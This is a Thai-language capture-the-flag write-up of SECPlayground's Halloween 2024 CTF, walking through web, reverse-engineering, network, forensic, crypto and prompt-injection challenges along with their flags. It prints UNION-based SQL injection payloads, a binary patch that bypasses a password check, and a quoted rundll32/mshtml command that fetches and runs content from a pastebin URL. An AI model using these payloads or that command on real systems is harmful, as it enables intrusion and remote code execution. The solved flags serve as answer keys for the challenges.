

การแข่งขัน CTF ในวัน Halloween จัดโดย SECPlayground ในวันที่ 31/10/2024


`Score of Don’t Know Everything Team (13/157)`


`Timeline of Don’t Know Everything Team`

ยอมรับว่าช่วงหลังๆทำไม่ได้จริงๆ อันดับร่วงยาวเลย เศร้า…

สำหรับงานนี้ ในมุมมองผมมองว่าสนุก แต่หลังๆก็เครียดนั้นแหละ เล่นคิดอะไรไม่ออกในครึ่งหลัง แต่ก็ทำให้ผมได้เจออะไรแปลกๆใหม่ๆ เพราะผมเองก็พึ่งเข้าวงการ CTF ได้ไม่นานนัก ยังมีความรู้น้อยมากในสายนี้

สำหรับ blog นี้ก็จะยาวหน่อยนะครับ เนื่องจากจะยัดทุกข้อที่ทำได้ไวใน blog เดียว😅

flag งานนี้มีทั้งแบบ static และแบบ dynamic สำหรับบางข้อ ดังนั้นแต่ละทีมจะได้ flag คนจะตัวกัน ซึ่งในการแข่งครั้งนี้เกิดการ submit flag ข้ามทีม (share คำตอบ) แล้วระบบตรวจเจอ ซึ่งทางทีมงานก็แบนทีมที่ทำแบบนั้นไปตามระเบียบ

# Team member blogs

- [c0ffeeOverdose](https://medium.com/@c0ffeeOverdose/secplayground-hackloween-ctf-2024-write-up-dont-know-everything-3933448615fc)

# Challenges

- **Web Application Security**
  - **Fast Input Please**
  - **Please find the secrets**
  - **Enter Captcha**
- **Reverse Engineering**
  - **App.jar**
  - **reverseme.exe**
- **Network Analysis**
  - **Set-password**
  - Reverse Reverse Reverse
  - **File Transfer**
  - **I Can See You # 6**
- **Incident**
  - **My legacy application was hacked # 7 (1,2,3)**
- **Artificial Intelligence**
  - **AI Prompt Injection # 4 (1,2)**
- **Cryptography**
  - **Can You Tell Me the Secret**
  - **Stand by Me**
- **Log Analysis**
  - **Following the Leak Trail # 3 (1,2,3)**

> ข้อที่ solve ได้จะเป็น text bold

# Fast Input Please

_Please insert username password for get flag_ \
_Format flag: web{…}_


`Screenshot of Fast Input Please`

หน้าเว็บแปลกๆ คิดว่าน่าจะให้ใส่ username / password


`Try`

ใส่ได้ครั้งละ 1 ตัวอักษร และรอ 1 นาทีสำหรับใส่ตัวถัดไป


`Payload of Request`

เราจึงมาดูว่า API ที่ใช้ submit นั้นทำงานยังไง และเมื่อเราเข้าใจแล้วว่ามันทำงานยังไงเราจึงไปทำการเรียก API ด้วยตนเองเพื่อความรวดเร็ว


`Get the flag after submitting all username and password characters`

มันได้ผล เราสามารถ POST ได้ทีละ 1 ตัวอักษร แต่เราไม่ต้องรอ 1 นาที เราจึง POST ไปให้ครบทุกตัวอักษรแล้ว เราก็จะได้ flag มา

```
web{BVCLB8vguI}
```

# Please find the secrets

_Please find the sensitive data somewhere on this site ! ! !_ \
_Format flag: web{…}_

เราได้ link เว็บหนึ่งมา ที่ไม่รู้เหมือนกันว่าใช้ทำอะไร เราจึงลอง เล่นๆดู


`captionless image`


`/login and /register`

เราลอง register และ login แล้ว ก็ไม่เจออะไร


`/dashboard of user`

เราจึงลองเอา session ใน cookie ไปถอดดู แต่ก็ไม่มีไรอะไรน่าสนใจ


`html of /register`

ปะหลาดละ มี field role ใน html ที่ถูก set เป็น user แต่ hide ไว้อยู่

เราเลยลองเปลี่ยนเป็น admin แล้ว register ดู


`/dashboard of admin`

โดนเกรียนครับ…

หลังจากวนไปนานแสนนาน แต่เดี๋ยวนะ อะไรแวบๆตรง console ตอน login


`DevTool > Console`

print มาทำไม ? เราเลยเปิดดู url ของ request นี้


`Response`

```txt
/api/v1/vault/data?id=1&table=users
```

อืมมมมม แปลกๆแฮะ ไหนลองเล่นดูหน่อย



`Response`

```txt
/api/v1/vault/data?id=1
```

เหมือนเราจะมาถูกทาง ??? ไหนลองทำให้มัน error สิ


`Flask interactive debugging`

เหมือนจะเปิด debug mode ไว้ มัน error แล้วแสดงผลออกมาแบบนี้ แถมมี commnet บอกใบ้ด้วย ดีจริงๆ สรุปคือ SQL Injection

เราจึงลอง inject พวก list table เข้าไปแต่พังเพราะเราใช้วิธีของพวก mysql แต่นี้เป็น sqlite3 (มัน show ตรง error) เราเลยใช้วิธีของ sqlite

เราเลยสรุปได้ว่า เราต้อง inject command เข้าตรง param ‘id’ และ ทำให้ output ที่ต้องการออกผ่าน column ‘secret’ และต้องกำหนด offset เพื่อเลื่อนเอา เพราะมันติด ‘fetchone’ ที่จะเลือกเอาแค่ตัวเดียว (อันแรก)

เริ่มจากการไล่ดูชื่อ table


`Table 3`

```txt
/api/v1/vault/data?id=0 UNION ALL SELECT NULL, name as secret FROM sqlite_master WHERE type="table" LIMIT 1 OFFSET 2
```

โดยชื่อ table ที่เรา list มาได้คือ users, secrets, flags

table ‘flags’ ??? ไหนลองดูชื่อ column หน่อยว่ามีอะไรบ้าง


`Column 2`

```txt
/api/v1/vault/data?id=0 UNION ALL SELECT NULL, name as secret FROM pragma_table_info("flags") LIMIT 1 OFFSET 1
```

มีชื่อ id, flag เราเลย select เอา flag จาก table นี้ดู


`flag from table flags`

```txt
/api/v1/vault/data?id=0 UNION ALL SELECT NULL, flag as secret FROM flags
```

เจอแล้ว !!

```txt
web{yPZoQ9BJ9}
```

# Enter Captcha

- Solved by c0ffeeOverdose : [link](https://pssl.noonomyen.com/medium/c0ffeeOverdos/3933448615fc/enter-captcha)

# App.jar

_Flag on App.jar, Can you find it?_ \
_Password for unzip: secplayground_ \
_Format flag: re{…}_


`App.jar`

ต้องใส่อะไรกันนะ เราจึง decompile ด้วย CFR decompiler


`Trap…`

เจอกับดักด้วยแหละ


`checkKey function`

เราเจอ method checkKey ที่เป็น method overloading อยู่ จาก code เมื่อกด OK มันจะเรียก function ด้วยบน แล้ว function ด้านล้างใช้ทำอะไร ?

เมื่อเราสังเกตุดูสักพัก เราคิดว่าน่าจะเป็น char แน่ๆ แต่ทำไมมันแปลกๆนะ


`WhatByte function`

น่าเข้ารหัสไว้ แล้วนี้น่าจะใช้ทำอะไรสักอย่างกับ array ก่อนหน้า

เราจึงแก้ code ให้ output ให้ถูกต้อง และเรียก function checkKey ตัวล่างดู


`Output return of App.WhatByte`


`Add call checkKey with argument`


`Result of function checkKey with argument`

ใช่แน่ มันคือ character เราจึงลองเอา list นี้ไปแปลง


`just@do@it@bro`

ไหนลองเอาไปใส่สิ


`Enter salt`

```txt
re{good@job@man@go@next@bye}
```

# reverseme.exe

_Reverse will get flag._ \
_Password for unzip: secplayground_ \
_Format flag: re{…}_


`reverseme.exe`

อืมมมม โยนเข้า ghidra เลย


`Ghidra | entry function`

ลองเข้าไปใน FUN_140005230 ดูหน่อย


`Ghidra | Decompile at FUN_140005230`

หลังจากไปดูแต่ละ function คือ ดูเข้าใจยากอะ อ่านไม่ออกอะ…

เราเลยจะใช้วิธีลอง bypass password ดูก่อน ว่าจะได้ไหม โดยเราจะหาจากการหาว่า ตรงไหนเป็นคน print “Incorrect password”


`Ghidra > Search > Program Text`


`Location of text “Incorrect password. Try again.”`

จะเห็นว่ามี cross references กับ FUN_140001ac0 เราจึงตามไปดูที่ function นั้น


`LAB_14000030b4`

และตามไปดู decompile ที่แถว address นั้น


`FUN_140001ac0`

แล้วเราก็คิดว่าเราเจอส่วนที่เป็น condition ว่า password จะถูกหรือผิดแล้ว

เราดู code แล้วทำความเข้าใจยากเหมือนเดิม เราจึงลอง ข้าม condition ด้วยการ jump ลงบรรทัดถัดไปดู


`Before | 140002fcf`


`After patch JNZ LAB_1400030b4 -> 0x140002fd5`

จะเห็นว่า ยังมี condition ติดอีกอยู่เราจึง patch อีกครั้งหนึ่ง


`Before | 140002fdc`


`After patch JNZ LAB_1400030b4 -> 0x140002fe2`

เสร็จแล้วก็ export มารันดู โดย password จะใส่อะไรก็ได้


`Result after bypass password`

มันได้ผล เราได้ hash และ key มา มองดูน่าจะ XOR แหละ เราจึงไปต่อที่ CyberChef


`CyberChef | From Hex > XOR`

จริงๆ ตอนผม solve ข้อนี้ผมใช้ Magic + Intensive mode ออกเหมือนกันครับ

```txt
re{good_job_qfU8W}
```

# Set-password

_A beginner network engineer is starting configuration on a new Router._ \
_Please find the administrator password._ \
_Format flag: network{…}_

เราได้ไฟล์ set-password.pcapng มา เราจึงมาดูแล้วพบว่า Router ที่หมายถึงมันคือ MikroTik RouterOS


`Wireshark | tcp.stream eq 8`

เราจึงมองหาการ key word คือ new-password แล้วก็เจอ ที่เหลือก็นำไปรวมกับ flag pattern

```txt
network{VqaSWwIIzxlBNdNjWkgA}
```

# File Transfer

- Solved by c0ffeeOverdose : [link](https://pssl.noonomyen.com/medium/c0ffeeOverdos/3933448615fc/file-transfer)

# I Can See You # 1

_Server is under attacks, as investigator could you fill in information about this case_ \
_What is the first file that was read? (answer in a full path)_ \
_(No prefix for this challenge flag)_


`Wireshark > Statistics > Conversations`

เปิดมา มีตัวละครอยู่แค่ 2 address ง่ายละสิ


`tcp.stream eq 12`

เราก็ทำการไล่มันทีละ stream เลย แล้วเจอ stream ที่ 12 ที่มี http url มีคำว่า remote อยู่ตรง parameter หลัง cli

เราจึงเปิดไปดู ช่วงท้ายๆ stream


`tcp.stream eq 12 at the end`

เราเจอ home/secret.txt ใน stream ที่ 12,13,14,15 เราจึงคิดว่าใช่แน่ๆ

โดยปกติแล้ว home directory จะอยู่ root path เราเลยเติม / เข้าไปอีก

```txt
/home/secret.txt
```

# I Can See You # 2

_Which sensitive file that was read by attacker (answer a full path)_ \
_(No prefix for this challenge flag)_


`tcp.stream eq 20`

เราไล่อ่านแต่ละ stream จนถึง 20 เราเจอข้อความที่น่าจะเป็น content ในไฟล์ /etc/passwd


`tcp.stream eq 21`

stream ถัดมาเราเจอชื่อไฟล์ /etc/passwd และแน่นอน ไฟล์นี้ถือเป็นไฟล์ที่ sensitive เพราะเป็นไฟล์ที่จะบอกว่าในเครื่องนั้นมี user อะไรบ้าง

```txt
/etc/passwd
```

# I Can See You # 3

_After attacker read a sensitive file, whose credentials were stolen?_ \
_(No prefix for this challenge flag)_

น่าจะเป็น root เพราะ tcp.stream ที่ 20

```txt
root
```

# I Can See You # 4

- Solved by c0ffeeOverdose : [link](https://pssl.noonomyen.com/medium/c0ffeeOverdos/3933448615fc/i-can-see-you-4)

# I Can See You # 5

_What is the file’s name for those credentials that were used to read it?_ \
_(answer only file’s name)_ \
_(No prefix for this challenge flag)_


`tcp.stream eq 29`

ถัดไปที่ stream ที่ 29

```txt
note.txt
```

# I Can See You # 6

- Solved by c0ffeeOverdose : [link](https://pssl.noonomyen.com/medium/c0ffeeOverdos/3933448615fc/i-can-see-you-6)

# My legacy application was hacked # 1

_We have an legacy application and it got hacked. We need your help to investigate to find the root cause of this incident._ \
_What is sha256 of evidence zip file?_ \
_Password for unzip: secplayground_ \
_Format forensic {SHA256}_

ก็แค่ hash ไฟล์


`SHA256 of My_legacy_application.zip`

```txt
forensic{6b6ec76ffb5c8922a34e4ef6f4fe39b4e7ebca7e7efe6252dbbe7d4252fc1a1e}
```

# My legacy application was hacked # 2

- Solved by c0ffeeOverdose : [link](https://pssl.noonomyen.com/medium/c0ffeeOverdos/3933448615fc/my-legacy-application-was-hacked-2)

# My legacy application was hacked # 3

- Solved by c0ffeeOverdose : [link](https://pssl.noonomyen.com/medium/c0ffeeOverdos/3933448615fc/my-legacy-application-was-hacked-3)

# AI Prompt Injection # 1

_We have a brand new chatbot, please try to check it out._ \
_Format flag: ai{…}_


`Chat`

ปะหลาดละ


`Chat`

งงสิครับ… (จริงๆอยากถามมันว่าเป็น Model ขอใครไรงี้)

```txt
ai{n0ygzPTpRI}
```

# AI Prompt Injection # 2

_Now, we custom our chatbot and more secure, please try to check it out._

_Format flag: ai{…}_


`Chat`

...

```txt
ai{t5P0uGuBzQ}
```

# Can You Tell Me the Secret

- Solved by c0ffeeOverdose : [link](https://pssl.noonomyen.com/medium/c0ffeeOverdos/3933448615fc/can-you-tell-me-the-secret)

# Stand by Me

_Dr. Jones is the undercover agent we’re after. Wdve discovered he left a message for his close contact regarding a crucial covert mission and needs their help._ \
_We intercepted a strange message he sent to his contact Please help us find out what Dr. Jones wants to communicate to his contact in order to locate him._ \
_The flag is the key of this song_ \
_Format flag: crypt{…}_

Hint: Vigenere cipher

เราได้ไฟล์ ชื่อ stand-by-me.pcapng มา เราลองเปิดด้วย network miner เพื่อดูว่ามีการส่งไฟล์อะไรกันไหม

```bash
tshark -F pcap -r stand-by-me.pcapng -w stand-by-me.pcap
```


`Network Miner > Files`

เราเจอไฟล์ที่น่าจะเป็นเนื้อเพลง เราจึงลองนำมาเปิดดู


`Lyrics to the so.txt from Network Miner`

เป็นข้อความที่ถูกเข้ารหัส ตอนแรกเราคิดว่าเป็น Letter frequency แต่กลับไม่ได้ผล เราจึงพยายามหาอะไรแปลกๆในข้อความแล้วได้ข้อความนี้มา

```txt
kwam nd nbjfj_678
```

เราพบว่า 3 คำนี้ไม่มีการซํ้ากันเลย เราพยายามอยู่พักใหญ่เพื่อหาว่ามันจะ map กลับยังไง ด้วยการเอาเนื้อเพลง Stand by me มาเทียบ แต่ก็ยังคิดไม่ออก เราจึงยอม hint เพราะเราเสียเวลาข้อนี้นานมาก คำใบ้คือ Vigenere cipher

เราทำความเข้าใจวิดีโออยู่สักพักจึงเริ่มทำการถอด

เริ่มจากหา key ที่บรรนั้นก่อนถึงข้อความแปลกๆนี้

```txt
Sntflj yfmhqp ati qarq Zr zmp muzytgny sntflj hcusgwe
Should tumble and fall Or the mountain should crumble
```

```py
from collections import deque
text_1 = "Sntflj yfmhqp ati qarq Zr zmp muzytgny sntflj hcusgwe".lower().replace(" ", "")
text_2 = "Should tumble and fall Or the mountain should crumble".lower().replace(" ", "")
shift = [((ord(c1) - ord("a")) - (ord(c2) - ord("a"))) % 26 for c1, c2 in zip(text_1, text_2)]
print(shift)
cipher = "kwam nd nbjfj_678"
for o in range(4):
    qshift = deque(shift[o:])
    secret = "".join([chr((((ord(c) - ord("a")) - qshift.popleft()) % 26) + ord("a")) if c.isalpha() else c for c in cipher])
    print(secret)
```

โดยเราจะหา key แล้วทำการ map คืน โดยที่ด้านหลัง _678 ไม่ต้องทำอะไร


`Flag`

แล้วนำไปรวมกับ flag pattern

```txt
crypt{nveuj_678}
```

# Following the Leak Trail #1

_An attempt was made to bypass something._ \
_What command is used to try to bypass?_ \
_Password for unzip: secplayground_ \
_Format flag: forensic{Full Process Command Line}_

เราได้ไฟล์ following_the_leak_trail.zip มาสำหรับ 3 ข้อ ซึ่งด้านในคือ spg-lab.evtx เราจึงเริ่มจากการใช้ chainsaw list เอา command line ออกมาดู

```bash
chainsaw hunt --sigma $CHAINSAW_SIGMA --mapping $CHAINSAW_MAPPING/sigma-event-logs-legacy.yml --rule $CHAINSAW_RULE spg-lab.evtx
```


`Chainsaw | Event log record ID 2578`

command นี้แปลกๆดีนะ

```bash
forensic{rundll32 vbscript:"\\..\\mshtml\\..\\LoL\\..\\mshtml,RunHTMLApplication "+String(CreateObject("Wscript.Shell").Run("https://pastebin.com/raw/nhWeTtJH"),0)}
```

# Following the Leak Trail #2

_What is the file name?_ \
_Format flag: forensic {filename}_ \
_Eg. forensic{sample.exe}_

ถามอะไรตรงๆแบบนี้ไปต่อไม่เป็นอะ แต่ด้วยความขี้สงสัยว่า link จากข้อ 1 มันคืออะไร เราเลยตามไปดู


`HTTP get with curl`

Flag, Key, IV ??? ท่าจะเป็น AES เราจึง decrypt มันดู

```py
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from binascii import unhexlify
key = unhexlify("7a4f3c2b1e0d9c8b7a6f5e4d3c2b1a097a4f3c2b1e0d9c8b7a6f5e4d3c2b1a09")
iv = unhexlify("f1e2d3c4b5a6978869584736251403f2")
flag = unhexlify("81275e920fe15ae8342cdb2290d4da916ef57fef0e8363050ba77b5a86d42e0b0c714aca752b65aa63fa122a0e96b4d233e1cee3fad3827fd4d68a409a085ec24ab342a139a2ce1728763c478af585fa5b929ce272ffb3a8ba2f9d5c8dc1c56135a5ceb553fe139f07d46745a9c72f2b")
cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted_data = unpad(cipher.decrypt(flag), AES.block_size)
print(decrypted_data.decode())
```


`Decrypted`


`CyberChef | Decode base64`

packet.zip หรอ ? ลองตอบดูละกัน

```txt
forensic{packet.zip}
```

# Following the Leak Trail #3

_There’s something to verify._ \
_What is the attacker’s IP?_ \
_Format flag: forensic{lPAddress}_

มองซ้ายมองขวา ไฟล์นี้มีไรอะ มี packet.pcapng อยู่ แต่ติด password คิดว่า password คงเหมือนๆข้ออื่นมั้ง “secplayground”


`Password is required to extract packet.zip file`

ไฟล์ใหญ่หนิดหนึ่งแฮะ เราจึงลอง analyze ดู conversation


`Wireshark > Statistics > Conversations | Sort by number of packets`

เจอ ip ที่น่าสงสัยละ ไหนลอง filter ดูสิ


`captionless image`

ไม่ต้องสืบละ

```txt
forensic{192.168.1.116}
```

หมดแล้ว สำหรับข้อทีมผมที่ solve ได้ ยอมรับว่าข้อ AI Prompt Injection # 3,4 ไปต่อไม่เป็นจริงๆ แต่ข้อ My legacy application was hacked # 4 ตกม้าตายเพราะมารู้ที่หลังว่าต้องเติม backslash ตรง C:\\ เป็น 2 ตัว 😑
